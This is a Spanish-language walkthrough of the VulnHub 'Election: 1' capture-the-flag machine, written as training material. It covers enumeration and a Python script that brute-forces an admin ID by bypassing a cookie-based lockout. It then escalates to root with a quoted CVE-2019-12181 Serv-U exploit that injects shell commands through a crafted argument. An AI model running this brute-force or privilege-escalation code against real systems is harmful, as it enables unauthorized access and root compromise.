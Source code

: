 #vulnhub #ctf-machine #easy-machine #linux  [Vulnhub Link](https://www.vulnhub.com/entry/election-1,503/)

## Enumeración inicial
Primeramente debemos de identificar la máquina objetivo, por lo tanto, hacemos un primer escaneo ARP utilizando la herramienta `arp-scan`:
![[Pasted image 20240822215413.png]]

La IPv4 de la máquina víctima es "192.168.159.140", ya que tiene de OUI el valor de "00:0c" que es el correspondiente a las máquinas que se importan en VMWare.

Para poder identificar de forma aproximada el sistema operativo de la máquina objetivo podemos lanzar una traza ICMP con el comando `ping`:
![[Pasted image 20240822215551.png]]

Como el TTL=64 podemos intuir que se trata de una máquina Linux.

## Nmap
Una vez identificada la IPv4 de nuestra máquina objetiva, hacemos un escaneo con `nmap` de los puertos TCP abiertos:
![[Pasted image 20240822215925.png]]

Como podemos ver solo hay 2 puertos abiertos, el puerto 22 y 80.  Por lo que realizamos un segundo escaneo para detectar la versión y servicio que corren para estos 2 puertos abiertos:
![[Pasted image 20240822220231.png]]

Podemos ver que se trata de un sistema Linux Ubuntu. Además, corre un servicio Apache de versión 2.4.29 por el puerto 80 y según el título de web parece ser la página por defecto de Apache 2.  Además, la versión de OpenSSH 7.6p1 es vulnerable a "User Enumeration" por lo que hay que tenerlo en cuenta por si se da la oportunidad de enumerar usuarios del sistema:
![[Pasted image 20240822220624.png]]

Si hacemos un último escaneo de `nmap` en el puerto 80 utilizando el script de Lua "http-enum" podemos encontrar lo siguiente:
![[Pasted image 20240822220526.png]]

## Enumeración web
Si hacemos un análisis con `whatweb` podemos ver información parecida a la que nos ha mostrado `nmap`:
![[Pasted image 20240822220808.png]]

Si accedemos a la web podemos ver la página por defecto de Apache 2:
![[Pasted image 20240822220945.png]]

Por lo que si probamos de ver el contenido de `/robots.txt` de la web vemos los siguientes directorios:
![[Pasted image 20240822221020.png]]

Si accedemos a `/phpinfo.php` podemos ver la inforación de PHP así como su versión:
![[Pasted image 20240822221130.png]]

Si nos fijamos en la información de PHP podemos ver que "file_uploads" está en "On" por lo que si conseguimos un LFI podemos conseguir RCE.

Si finalmente accedemos a `/phpmyadmin` podemos ver el panel de inicio de sesión, pero por el momento no disponemos de ninguna credencial.
![[Pasted image 20240822221452.png]]

## Fuzzing
Si hacemos *fuzzing* con `gobuster` en busca de directorios y archivos ".php" podemos encontrar lo siguiente:
![[Pasted image 20240822221830.png]]

Si accedemos a `/election/` podemos ver la siguiente página:
![[Pasted image 20240822222022.png]]

Es una página bastante estática así que podemos probar de hacer *fuzzing* con gobuster dentro de este directorio:
![[Pasted image 20240822235431.png]]

Si accedemos al directorio `election/admin` podemos ver lo siguiente:
![[Pasted image 20240822225654.png]]

Parece ser que debemos proporcionar el ID administrador, pero al introducirlo mal nos indica que tenemos solo 3 intentos:
![[Pasted image 20240822225711.png]]

Si miramos como se tramita la solicitud con `burpsuite` vemos que hay un parámetro "blocked_num" en la *cookie* que si lo quitamos nos permite enviar solicitudes sin bloquearnos:
![[Pasted image 20240822225838.png]]
![[Pasted image 20240822225904.png]]

Por lo que podemos hacer un pequeño script de Python que permita encontrar el ID correcto de admin:
```python
import requests, signal, sys

def sig_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, sig_handler)


header= {"X-Requested-With": "XMLHttpRequest"}

for i in range(1000, 100000):
    data = {"step": 1, "noinduk": i}
    r = requests.post("http://192.168.159.140/election/admin/ajax/login.php", data=data, headers=header)

    if "false" not in r.text:
        print("Admin ID: %d" % i)
        sys.exit(0)

```
![[Pasted image 20240822230001.png]]

Si accedemos con el ID 1234 vemos lo siguiente:
![[Pasted image 20240822230050.png]]

Que si volvemos a analizar la *request* con `burpsuite` vemos que se vuelve a utilizar el mismo control absurdo:
![[Pasted image 20240822230200.png]]

Por lo que podemos utilizar `wfuzz` para intentar adivinar la contraseña con el diccionario "rockyou.txt" pero no encontramos la contraseña.

Si seguimos haciendo fuzzing con `gobuster` de directorios dentro de `/election/admin` encontramos lo siguiente:
![[Pasted image 20240823001241.png]]


Si accedemos a `/election/admin/logs` que parece bastante crítico podemos ver lo siguiente:
![[Pasted image 20240822235522.png]]

Si nos descargamos el archivo y lo miramos vemos que hay una credencial:
![[Pasted image 20240822235631.png]]

Podemos probar de conectarnos mediante SSH con el supuesto usuario "love" y su contraseña:
![[Pasted image 20240823001357.png]]

Y efectivamente nos podemos conectar.

## Escalada de privilegios
Si accedemos al directorio `/home/love/Desktop` podemos visualizar la primera *flag*:
![[Pasted image 20240823001557.png]]

Si listamos los archivos con permisos SUID vemos el siguiente archivo:
![[Pasted image 20240823105820.png]]

Si buscamos sobre este archivo en `searchsploit` encontramos lo siguiente:
![[Pasted image 20240823110228.png]]

Por lo que si analizamos el *exploit* vemos que se trata de pasarle como argumentos una cadena especialmente diseñada para obtener una Shell como root.
```c
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

Así que compilamos el *exploit* en la máquina víctima y lo ejecutamos obtenemos *root*:
![[Pasted image 20240823110651.png]]

Y si finalmente accedemos a `/root` podemos visualizar la última *flag*:
![[Pasted image 20240823110728.png]]

___
#information-leakage #web-enumeration #abusing-suid 
___